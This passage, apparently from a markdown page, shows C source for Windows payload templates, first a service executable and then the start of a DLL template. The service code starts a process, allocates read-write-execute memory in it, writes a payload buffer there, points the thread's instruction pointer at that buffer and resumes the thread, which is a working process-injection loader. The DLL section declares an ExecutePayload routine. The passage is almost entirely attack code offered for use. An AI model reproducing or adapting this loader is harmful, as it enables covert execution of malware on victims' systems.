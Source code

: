 ```c
		  
			GetThreadContext( pi.hThread, &Context );
		  
			lpPayload = VirtualAllocEx( pi.hProcess, NULL, PAYLOAD_SIZE, MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE );
			if( lpPayload ) {
				WriteProcessMemory( pi.hProcess, lpPayload, &bPayload, PAYLOAD_SIZE, NULL );
#ifdef _WIN64
				Context.Rip = (DWORD64)lpPayload;
#else
				Context.Eip = (DWORD)lpPayload;
#endif
				SetThreadContext( pi.hThread, &Context );
			}

			ResumeThread( pi.hThread );
			
			CloseHandle( pi.hThread );
		  
			CloseHandle( pi.hProcess );
		}
		
		ServiceHandler( SERVICE_CONTROL_STOP );
		
		ExitProcess( 0 );
	}
}

/*
 *
 */
int __stdcall WinMain( HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow ) {
	SERVICE_TABLE_ENTRY st[] = { 
        { (LPSTR)&cServiceName, (LPSERVICE_MAIN_FUNCTIONA)&ServiceMain }, 
        { NULL, NULL } 
    };
	return StartServiceCtrlDispatcher( (SERVICE_TABLE_ENTRY *)&st );
}
```

## 03 - DLL

- Main source code

```c
#include <windows.h>
#include "template.h"

#if BUILDMODE == 2
/* hand-rolled bzero allows us to avoid including ms vc runtime */
void inline_bzero(void *p, size_t l) {
	BYTE *q = (BYTE *)p;
	size_t x = 0;
	for (x = 0; x < l; x++)
		*(q++) = 0x00;
}

#endif


void ExecutePayload(void);

```